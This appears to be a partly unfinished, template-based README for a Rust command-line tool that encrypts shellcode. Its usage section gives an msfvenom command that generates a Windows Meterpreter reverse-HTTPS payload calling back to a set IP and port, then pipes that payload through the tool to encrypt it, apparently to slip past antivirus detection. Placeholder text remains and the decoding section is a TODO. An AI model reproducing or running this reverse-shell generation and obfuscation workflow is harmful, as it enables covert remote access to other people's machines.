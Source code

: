 # encoder-decoder

A brief description of your CLI tool. What it does, why it exists, and any other important context.

[![License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT)

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Options](#options)
- [License](#license)

## Installation

**From Source**:

```bash
git clone https://github.com/yourusername/CLI-ToolName.git
cd CLI-ToolName
cargo build --release
```

##Usage

###Encoding

```
msfvenom -p windows/meterpreter/reverse_https LPORT=443 LHOST=192.168.45.155 -f csharp -o raw_payload.cs

encoder-decoder encode -i raw_payload.cs -o encrypted_payload.cs

cat encrypted_payload.cs && key.txt
```

###Decoding
TODO
